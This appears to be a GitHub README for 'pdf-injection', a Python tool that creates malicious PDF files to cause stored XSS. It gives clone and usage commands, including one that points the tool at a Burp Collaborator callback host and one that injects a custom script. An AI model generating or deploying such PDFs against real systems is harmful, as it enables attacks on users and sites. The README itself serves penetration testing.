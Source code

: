 # pdf-injection

Installation
```
git clone https://github.com/kaanatmacaa/pdf-injection.git
```

Usage
```
python3 xss-pdf.py -h
python3 xss-pdf.py 
python3 xss-pdf.py -o 1 -u http://burpsuite12345.oastify.com
python3 xss-pdf.py -o 2 -sc app.alert(2) 
```

Option 1
Creates three malicous PDF files leading to stored XSS

Option 2
  Allows user to create own PDF file with their personal scripts - still working on it


Open to new suggestions, please create an issue
